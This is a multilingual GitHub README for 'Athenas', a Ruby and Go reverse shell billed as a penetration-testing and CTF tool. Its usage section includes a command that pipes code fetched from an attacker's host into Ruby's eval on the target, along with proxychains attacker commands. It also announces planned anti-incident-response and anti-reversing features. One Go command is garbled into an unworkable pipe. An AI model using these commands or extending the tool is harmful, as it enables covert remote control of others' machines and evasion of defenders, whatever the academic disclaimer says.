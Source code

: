 # Athenas
🇧🇷 - Uma reverse shell construída em ruby para o testes de penetração. Agora para ambientes onde pode ser utilizado a linguagem interpretada e compilada 
Utiliza um sistema onde a porta de conexão é fornecida pelo alvo, e não pelo atacante, possibilitando o uso de proxy's e conexões em intervalos, devido ao loop de execução.


🇬🇧 -A reverse shell built in Ruby for penetration testing. Now for environments where the interpreted and compiled language can be used.
It uses a system where the connection port is provided by the target, not the attacker, allowing the use of proxies and connections at intervals, due to the execution loop.

🇨🇳 一个用Ruby编写的用于渗透测试的反向shell。现在适用于可以使用解释型和编译型语言的环境。
它使用一个系统，其中连接端口由目标提供，而不是攻击者提供，允许使用代理和在间隔内进行连接，这是由于执行循环的原因。

## Usage:
> RSA:
```
 # Generate the listener private key
openssl genrsa -out listener_private_key.pem 8192

  # Generate the listener public key
openssl rsa -in listener_private_key.pem -pubout -out listener_public_key.pem

  # Generate the server private key
openssl genrsa -out server_private_key.pem 8192

  # Generate the server public key
openssl rsa -in server_private_key.pem -pubout -out server_public_key.pem
```
> Target:
```
curl http://<attacker_ip>/target.rb | ruby -e 'eval(STDIN.read)'
#or just download it.

=========================
        GOLANG:
=========================
go build main.go

curl http://<attacker_ip>/target | chmod 777 target | /path/to/target --port <port>

=========================
```

> Attacker
```
ruby attacker.rb
#or
proxychains4 attacker.rb
=========================
        GOLANG:
=========================
go build aaa.go

./file --server <server> --port <port>

```
![image1](https://github.com/Lowkkii/Athenas/blob/main/main.png)
### soon:
* Binary files.
* anti incident-response.
* anti reversing.
* 
# Disclaimer
A perfect reverse shell for CTF's.

This repository and the tool contained within it are provided strictly for academic and research purposes. The use of this tool for any purpose that violates applicable laws or local, national, or international regulations is strictly prohibited. The contributors to this repository bear no responsibility for how this tool is used and the consequences arising from its use.

By using this tool, you agree to do so strictly for academic purposes and acknowledge that you are responsible for complying with all applicable laws and regulations during the use of this tool. This repository and its contributors do not endorse or promote any illegal or harmful activities.

Any misuse of this tool is not the responsibility of the contributors to this repository. If you do not agree with these terms or are unwilling to use it strictly for academic purposes, please do not proceed with the use of this tool.

